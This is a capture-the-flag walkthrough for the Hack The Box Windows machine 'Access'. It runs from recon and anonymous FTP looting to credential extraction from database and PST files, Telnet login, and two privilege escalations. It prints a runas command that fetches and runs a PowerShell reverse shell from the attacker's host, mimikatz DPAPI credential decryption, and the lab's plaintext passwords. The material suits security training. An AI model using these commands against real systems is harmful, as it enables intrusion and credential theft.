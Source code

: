 # 🧭 HTB: Access Walkthrough

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
**Skills**: FTP enumeration, PST extraction, Telnet login, credential dumping, DPAPI decryption

---

## 🔍 Recon

```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.98
nmap -sV -sC -p 21,23,80 -oA nmap/scripts 10.10.10.98
```

**Findings**:
- [FTP](FTP) (21): Anonymous login allowed
- [Telnet](TELNET) (23)
- [HTTP](HTTP) (80): Microsoft IIS 7.5

---

## 🌐 Exploring HTTP

```bash
gobuster -u http://10.10.10.98 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,txt -t 20
```

- No interesting directories found
- Image shown on homepage

---

## 📁 FTP File Extraction

```bash
ftp 10.10.10.98
# Login: anonymous
# Navigate and download files
cd Backups
bin
get backup.mdb

cd ../Engineer
get "Access Control.zip"
```

---

## 🧵 Analyzing backup.mdb (Microsoft Access DB)

```bash
apt install mdbtools
mdb-tables backup.mdb
mdb-export backup.mdb auth_user
```

**Findings**:
```txt
engineer : access4u@security
```

---

## 🔓 Crack PST Archive

```bash
7z x Access\ Control.zip  # Password: access4u@security
```

---

## 📬 Extract Outlook Password (readpst)

```bash
apt install readpst
readpst Access\ Control.pst
cat Access\ Control.mbox
```

**Email content**:
```txt
security : 4Cc3ssC0ntr0ller
```

---

## 💻 Shell as security via Telnet

```bash
telnet 10.10.10.98
# Login: security / 4Cc3ssC0ntr0ller

whoami
type C:\Users\security\Desktop\user.txt
```

---

## 🔎 Privilege Escalation Enumeration

```cmd
cmdkey /list
```

**Findings**:
- Cached credentials for ACCESS\Administrator
- Found `.lnk` file referencing `runas /savecred`

---

## 🔄 Method 1: PrivEsc via runas & PowerShell reverse shell

### 🛠️ Prep Nishang shell

```bash
git clone https://github.com/samratashok/nishang.git
mkdir ~/www
cp nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/
echo 'Invoke-PowerShellTcp -Reverse -IPAddress <tun0_ip> -Port 443' >> ~/www/Invoke-PowerShellTcp.ps1

# Serve it
cd ~/www
python3 -m http.server 80

# Listener
nc -lnvp 443
```

### 🏃 Execute from target

```powershell
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://<tun0_ip>/Invoke-PowerShellTcp.ps1')"
```

**Result**: Administrator shell ➜ `whoami`, then:
```powershell
type C:\users\administrator\desktop\root.txt
```

---

## 🔄 Method 2: PrivEsc via DPAPI Credential Decryption

### 📤 Extract & Encode

```cmd
certutil -encode 0792c32e... output
certutil -encode 51AB168B... output
```

### 📥 Decode on Kali

```bash
base64 -d masterkey.b64 > masterkey
base64 -d credentials.b64 > credentials
```

### 🧪 Decrypt with mimikatz on Windows

```powershell
dpapi::masterkey /in:masterkey /sid:S-1-5-21-... /password:4Cc3ssC0ntr0ller
dpapi::cred /in:credentials
```

**Extracted Administrator password**:
```
55Acc3ssS3cur1ty@megacorp
```

### 🔁 Telnet as Administrator

```bash
telnet 10.10.10.98
# Login: administrator / 55Acc3ssS3cur1ty@megacorp
cd desktop
type root.txt
```

---

## 🗂️ Beyond Root – Analyze LNK

### 🔎 On Windows

```powershell
$WScript = New-Object -ComObject WScript.Shell
$SC = Get-ChildItem *.lnk
$WScript.CreateShortcut($SC)
```

### 🔍 On Linux with pylnker

```bash
base64 -d lnk.b64 > lnk
python pylnker.py lnk
```